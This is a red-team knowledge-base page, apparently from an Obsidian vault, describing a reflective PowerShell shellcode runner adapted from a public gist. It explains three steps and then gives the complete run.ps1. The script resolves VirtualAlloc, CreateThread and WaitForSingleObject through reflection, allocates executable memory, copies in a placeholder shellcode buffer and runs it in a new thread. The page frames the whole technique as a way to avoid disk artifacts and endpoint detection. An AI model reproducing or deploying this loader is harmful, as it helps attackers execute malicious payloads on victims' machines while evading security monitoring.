 ```yaml
---
aliases: 
tags:
  - 💣
primary categories:
  - "[[01 - Development]]"
  - "[[01 - Penetration Test]]"
  - "[[01 - Red Team]]"
secondary categories:
  - "[[02 - PowerShell]]"
  - "[[02 - Weaponization]]"
  - "[[02 - Payload Engineering]]"
type: Payload
---
```

# [[Reflective PowerShell Shellcode Runner]]

***
## Overview

This reflective PowerShell shellcode runner template provides a stealthier alternative to traditional in-memory payload delivery by avoiding the use of disk-backed artifacts. A common method of executing unmanaged code in PowerShell is through the `Add-Type` cmdlet, which compiles and stores .NET assemblies to disk—a behavior that can trigger detection from endpoint monitoring tools. In contrast, this template performs all operations entirely in memory, eliminating the reliance on Add-Type and minimizing forensic evidence. This payload template is largely based on [`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) by [_braaaax_](https://github.com/braaaax).

The payload follows a three-step reflective injection process, all without relying on `Add-Type` or writing any assemblies to disk:

### 1. Dynamic Win32 API Resolution

Using .NET reflection, the script locates function pointers for native Win32 APIs like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` by querying loaded modules and calling `GetProcAddress`:

```powershell
# Function to dynamically resolve the address of a Win32 API function in memory
function LookupFunc {
        Param ($moduleName, $functionName)

		# Get the 'UnsafeNativeMethods' type from the loaded System.dll assembly
        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

		# Filter out the 'GetProcAddress' method
	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

		# Invoke GetProcAddress(GetModuleHandle($moduleName), $functionName)
        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}
```

### 2. Delegate Construction for API Invocation

Since .NET requires strong typing for API calls, the script uses `System.Reflection.Emit` to define method signatures at runtime. This allows for calling unmanaged APIs using the correct parameter and return types:

```powershell
# Function to dynamically generate a delegate type for a given API function signature
function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

		# Define a dynamic in-memory assembly to hold the delegate type
        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		# Define the constructor required for a delegate type
		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		# Define the 'Invoke' method for the delegate (used to call the function)
		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

		# Create and return the delegate type
        return $type.CreateType()
}
```

### 3. Allocate Memory, Inject Shellcode, and Invoke Execution

With the shellcode hard coded in a byte array, the script allocates *RWX* memory, copies the payload into it, and creates a new thread to execute it. The entire process is conducted using delegates and Win32 APIs resolved in-memory:

```powershell
# Replace this with actual shellcode bytes
[Byte[]] $buf = <shellcode-buffer-byte-array>

# Allocate memory
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

# Copy shellcode into allocated memory
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

# Execute shellcode in new thread
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

# Wait for thread to complete
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***
## File Contents

### `run.ps1`

```powershell
function LookupFunc {
        Param ($moduleName, $functionName)

        $assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
				    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }
				    ).GetType('Microsoft.Win32.UnsafeNativeMethods')
	    
	    $tmp=@()

	    $assem.GetMethods() | ForEach-Object {
		    If($_.Name -eq "GetProcAddress") {$tmp+=$_}
		}

        return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {
        Param (
            [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
            [Parameter(Position = 1)] [Type] $delType = [Void]
        )

        $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly(
			        (New-Object System.Reflection.AssemblyName('ReflectedDelegate')),
			        [System.Reflection.Emit.AssemblyBuilderAccess]::Run
			        ).DefineDynamicModule('InMemoryModule', $false).DefineType(
				        'MyDelegateType', 
				        'Class, Public, Sealed, AnsiClass, AutoClass',
				        [System.MulticastDelegate]
				    )

		$type.DefineConstructor('RTSpecialName, HideBySig, Public',
								[System.Reflection.CallingConventions]::Standard,
								$func).SetImplementationFlags('Runtime, Managed')

		$type.DefineMethod('Invoke',
							'Public, HideBySig, NewSlot, Virtual',
							$delType,
							$func).SetImplementationFlags('Runtime, Managed')

        return $type.CreateType()
}

[Byte[]] $buf = <shellcode-buffer-byte-array>

$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll VirtualAlloc),
	(getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32]) ([IntPtr]))
	).Invoke([IntPtr]::Zero, $buf.length, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer(
	(LookupFunc kernel32.dll CreateThread), 
	(getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))
	).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)

[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

***
## Resources:

| Hyperlink                                                                              | Info             |
| -------------------------------------------------------------------------------------- | ---------------- |
| [_braaax_/`run.ps1`](https://gist.github.com/braaaax/41789bad5d07b8ba236299047a774ffa) | GitHub Gist Page |

[^1]: 

***

*Created Date*: <%+tp.file.creation_date("MMMM Do YYYY (HH:mm a)")%>  
*Last Modified Date*: <%+tp.file.last_modified_date("MMMM Do YYYY (HH:mm a)")%>
